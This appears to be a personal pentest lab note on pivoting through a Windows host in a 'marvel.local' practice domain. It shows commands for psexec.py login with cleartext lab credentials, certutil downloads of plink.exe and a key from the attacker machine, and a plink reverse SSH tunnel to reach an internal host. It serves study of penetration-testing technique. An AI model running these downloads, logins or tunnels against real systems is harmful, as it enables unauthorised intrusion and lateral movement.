 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

```bash - kali
psexec.py marvel.local/fcastle:Password1@192.168.111.138
```

```command prompt - target
cd C:\Users\fcastle\Documents
```

```command prompt - windows
certutil -urlcache -split -f http://192.168.111.133/plink.exe
```

Create ssh keygen:

[[2a._SSH Tun(Linux)#Reverse Connections]]

Install putty-tools and convert they reverse file.

```bash - kali
sudo apt install putty-tools
```

```bash - kali
puttygen reverse -o reverse_key.ppk
```

Transfer reverse_key to vic:

```command prompt - windows
certutil -urlcache -split -f http://192.168.111.133/reverse_key.ppk
```

```command prompt - windows
cmd.exe /c echo y | .\plink.exe -R 8000:10.10.10.128:80 kali@192.168.111.133 -i reverse_key.ppk -N
```

![[Pasted image 20220116114712.png]]

![[Pasted image 20220116114732.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
